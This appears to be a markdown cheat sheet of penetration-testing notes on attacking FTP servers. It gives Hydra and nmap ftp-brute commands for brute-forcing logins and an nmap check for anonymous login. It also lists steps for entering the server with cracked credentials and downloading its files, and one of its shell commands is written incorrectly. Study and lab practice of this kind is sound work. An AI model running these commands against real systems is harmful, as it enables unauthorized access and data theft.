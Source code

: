 # FTP

## Get username and passwords list using HYDRA
* `hydra -L [username_file.txt] -P [password_file.txt] [IP] [protocol_name, in this case=ftp]`


## Get password of a specific user (username required) 
* `echo "[username]" < [any valid variable_name to store the value]`
* check by: `cat[variable_name]`
* `nmap --script ftp-brute --script-args userdb=/root/[variable_name] -p 21 [IP]`

## Get into FTP as an anonymous user
* To check whether the ftp server on the target system allows anonymous login or not, use this:
  * `nmap --script ftp-anon -p 21 [IP]`
  * If it returns the message: "Anonymous FTP login allowed" ---> `ftp [IP]` ---> Put user as `anonymous` and press enter when asked for the password --> you will be in the FTP server.

***

**Get into the files shared by a user**
* Then `ftp [IP]` ---> it will ask for username and password which can be entered from the list fetched from hydra command.
* Once we are in, see the files: `ls` ---> `get [file_name]` ---> `bye`
* Once exit, we can see [file_name] on our local system which can be fetched using `cat [file_name]`
